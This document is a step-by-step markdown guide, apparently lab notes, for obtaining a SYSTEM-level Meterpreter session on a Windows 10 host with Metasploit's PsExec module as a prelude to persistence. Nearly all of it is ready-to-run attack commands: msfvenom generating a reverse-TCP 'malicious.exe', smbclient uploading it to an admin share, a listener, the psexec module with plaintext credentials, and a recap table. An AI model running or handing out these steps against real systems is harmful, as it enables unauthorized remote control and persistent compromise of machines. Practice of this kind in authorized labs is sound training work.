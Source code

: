 **simple, step-by-step guide** to get a **Meterpreter shell on a Windows 10 machine using PsExec**, which is what you need before setting up persistence. I've made it **easy to remember and repeat**, broken into two phases: **Listener Setup (Kali)** and **PsExec Exploit (Metasploit)**.

---

Pre-requisite

```
## 🔑 Gaining Administrative Rights on the Target Machine

> Before proceeding with the main steps, you may need to gain administrative rights on the target machine. Here's how you can create a malicious executable and transfer it to the target machine using `msfvenom` and `smbclient`.

### 🧱 Step 0: Create a Malicious Executable with msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe -o malicious.exe
```
- Replace `LHOST` with your Kali machine's IP address.
- Replace `LPORT` with the port you want to use for the reverse shell.

### 🧱 Step 1: Transfer the Executable to the Target Machine
Use `smbclient` to copy the malicious executable to a writable share on the target machine:
```bash
smbclient //172.22.117.20/C$ -U tstark
put malicious.exe
```
- Replace `//172.22.117.20/C$` with the target machine's SMB share path.
- Replace `tstark` with the username that has access to the share.

### 🧱 Step 2: Execute the Malicious File on the Target Machine
Gain access to the target machine and execute the file:
1. Use `psexec`, RDP, or another method to log in.
2. Navigate to the location of `malicious.exe` and run it.

### 🧱 Step 3: Catch the Reverse Shell
Ensure your Metasploit listener is running (refer to **Phase 1: Listener Setup**) to catch the reverse shell.

> ✅ Once the reverse shell is established, you can escalate to SYSTEM-level rights using Meterpreter commands like `getsystem`.

---
> **Note:** This step assumes you have valid credentials to access the target machine. If not, you'll need to explore other techniques to gain initial access.

```

## 🧪 Phase 1: Set Up the Listener in Kali Linux

> Think of this as “setting the trap” to catch the shell.

### 🧱 Step 1: Open Metasploit
```bash
msfconsole
```

### 🧱 Step 2: Kill old background jobs (optional but safe)
```bash
jobs -K
```

### 🧱 Step 3: Set up a multi/handler to catch the reverse shell
```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.117.100     # Your Kali IP address
set LPORT 4444
run -j
```
> ✅ You now have a listener running in the background, ready to catch a reverse shell.

---

## 💣 Phase 2: Launch the Exploit with PsExec

> Think of this as “delivering the shell.”

### 🧱 Step 4: Use PsExec in Metasploit
```bash
use exploit/windows/smb/psexec
```

### 🧱 Step 5: Set the target IP
```bash
set RHOSTS 172.22.117.20     # Target Windows 10 IP
```

### 🧱 Step 6: Set SMB credentials (must be ADMIN)
```bash
set SMBUser tstark
set SMBPass Password!
set SMBDomain megacorpone
```

### 🧱 Step 7: Use the same payload from the handler
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.117.100
set LPORT 4444
```

### 🧱 Step 8: Launch the attack
```bash
run
```

---

## ✅ What to Expect

If successful, you'll see:
```
Sending stage (200262 bytes) to 172.22.117.20
Meterpreter session 1 opened
```

You now have a **SYSTEM-level Meterpreter session**, which is required for persistence techniques like:

- Creating services
- Scheduled tasks
- Registry changes

---

## 🔁 Quick Recap

| Step | Command |
|------|---------|
| 1 | `msfconsole` |
| 2 | `jobs -K` |
| 3 | `use exploit/multi/handler` |
| 4 | `set PAYLOAD windows/x64/meterpreter/reverse_tcp` |
| 5 | `set LHOST <Kali IP>` |
| 6 | `set LPORT 4444` |
| 7 | `run -j` |
| 8 | `use exploit/windows/smb/psexec` |
| 9 | `set RHOSTS <Target IP>` |
| 10 | `set SMBUser`, `SMBPass`, `SMBDomain` |
| 11 | `set PAYLOAD`, `LHOST`, `LPORT` again |
| 12 | `run` |

---

